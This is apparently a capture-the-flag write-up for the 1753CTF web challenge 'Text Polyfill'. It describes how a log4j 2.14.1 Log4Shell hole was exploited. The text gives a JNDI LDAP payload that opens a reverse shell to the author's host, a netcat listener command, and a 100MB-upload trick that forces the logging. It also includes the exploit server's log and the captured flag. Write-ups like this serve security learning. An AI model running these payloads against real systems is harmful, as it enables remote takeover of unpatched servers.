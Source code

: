 # WEB //   🧑‍🎨 Text Polyfill

We feel your pain. You love to generate art with AI, but hate the fact it can't put simple text on your pictures. Well... Fear no more. Our simple website allows to add any text to your AI generated images without a hassle. Enjoy!

[⬇️ text-polyfill.zip](./text-polyfill.zip)

# Writeup

I saw in the [pom.xml](./source/pom.xml) that they used log4j 2.14.1. This one has the populare `log4shell` vulnerability. 

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
```

My first thought was to spin up `jndi.jar` which I had from a previous challenge where they used the same exploit. 

```bash
$ java -jar jndi.jar -i <myserverip>
java -jar jndi.jar -i 0.0.0.0
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8080...
```
Then opened a simple `nc` listening to port 1234 with `nc -knlvp 1234` and run a request using user-agent header as the payload bearer.

```bash
curl https://text-polyfill-982935551e3a.1753ctf.com/ -v -H "User-Agent: \${jndi:ldap://13.51.X.X:1389/Basic/ReverseShell/13.51.X.X/1234}"
```

But no, cloudfront was blocking my request. So I neeed to figure out if the server was vulnerable.
Looking at the code of [ImageTextServer.java](./source/src/main/java/com/ctf/ImageTextServer.java) I see that if it throws an exception while trying to add text to my image I will log the `text` parameter we ship. If we add the payload there and make it throw an exception.

@morty linked me to this [Log4Shell tester](http://mtest.malpasonline.co.uk/) which was a faster method to test so I used this until I found a working method.

I tried a lot of things:
- Invalid files (movies, exe, txt)
- Image with very small size
- Very long text after the payload
- Image with 5mb, 20mb

Then I thought maybe I could make it throw by just giving it evem bogger images? Memory exception? I tried to upload a 100MB file and it worked.

![image](./image.png)

Now just startup jndi.jar and use the original payload and Profit!

```bash
$ java -jar jndi.jar -i 13.51.X.X
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8080...
[+] Received LDAP Query: Basic/ReverseShell/13.51.X.X/1234
[+] Paylaod: reverseshell
[+] IP: 13.51.X.X
[+] Port: 1234
[+] Sending LDAP ResourceRef result for Basic/ReverseShell/13.51.X.X/1234 with basic remote reference payload
[+] Send LDAP reference result for Basic/ReverseShell/13.51.X.X/1234 redirecting to http://13.51.X.X:8080/Exploit6AooDuovcP.class
[+] New HTTP Request From /68.183.X.X:60182  /Exploit6AooDuovcP.class
[+] Receive ClassRequest: Exploit6AooDuovcP.class
[+] Response Code: 200
```

And suddenly in my netcat window I had shell access and could get the flag. The flag seems to be in the environment variable `flag` according to the java file. 

```bash
nobody@648887927c45:/app$ echo $flag
1753c{generate_text_to_get_an_epic_rce}
```